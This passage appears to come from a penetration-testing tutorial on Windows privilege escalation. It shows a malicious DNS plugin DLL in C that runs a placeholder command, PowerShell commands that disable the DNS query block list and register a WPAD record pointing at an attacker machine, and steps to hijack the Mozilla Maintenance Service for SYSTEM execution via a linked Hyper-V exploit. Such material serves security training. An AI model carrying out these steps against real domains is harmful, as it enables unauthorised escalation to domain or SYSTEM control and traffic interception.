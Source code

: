 ```c

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}
```

### Creating a WPAD Record

Another way to abuse DnsAdmins group privileges is by creating a WPAD record. Membership in this group gives us the rights to disable global query block security. To set up this attack, we first disabled the global query block list:
```console
C:\zeropio> Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName <COMPUTER NAME>
```

Next, we add a WPAD record pointing to our attack machine:
```console
C:\zeropio> Add-DnsServerResourceRecordA -Name wpad -ZoneName <DOMAIN> -ComputerName <COMPUTER NAME> -IPv4Address <OUR IP>
```

## Hyper-V Administrators 

The Hyper-V Administrators group has full access to all Hyper-V features. If Domain Controllers have been virtualized, then the virtualization admins should be considered Domain Admins. An example of this is Firefox, which installs the Mozilla Maintenance Service. We can update this [exploit](https://raw.githubusercontent.com/decoder-it/Hyper-V-admin-EOP/master/hyperv-eop.ps1) to grant our current user full permissions on the file below:
```
C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe
```

After running the PowerShell script, we should have full control of this file and can take ownership of it:
```console
C:\zeropio> takeown /F C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe
```

Next, we can replace this file with a malicious maintenanceservice.exe, start the maintenance service, and get command execution as SYSTEM:
```console
C:\zeropio> sc.exe start MozillaMaintenance
```
